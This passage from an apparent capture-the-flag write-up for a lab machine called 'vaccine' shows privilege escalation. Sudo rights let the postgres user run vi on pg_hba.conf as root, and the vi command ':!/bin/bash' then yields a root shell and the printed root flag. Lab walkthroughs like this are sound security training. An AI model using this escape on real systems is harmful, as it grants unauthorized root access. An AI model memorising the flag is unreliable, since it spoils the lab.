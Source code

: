 This password can be used to view the user's sudo privileges.

~~~
postgres@vaccine:/var/www/html$ sudo -l
[sudo] password for postgres: 
Matching Defaults entries for postgres on vaccine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
~~~

The user is allowed to edit the configuration `/etc/postgresql/11/main/pg_hba.conf` using `vi`. This can be leveraged to gain a root shell and access `root.txt`.

~~~
postgres@vaccine:/var/www/html$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf 
~~~

Now in `vi`, use the command `:!/bin/bash` to open a shell as root:

~~~
root@vaccine:/var/www/html# whoami
root
root@vaccine:/var/www/html# cat /root/root.txt 
dd6e058e814260bc70e9bbdef2715849
~~~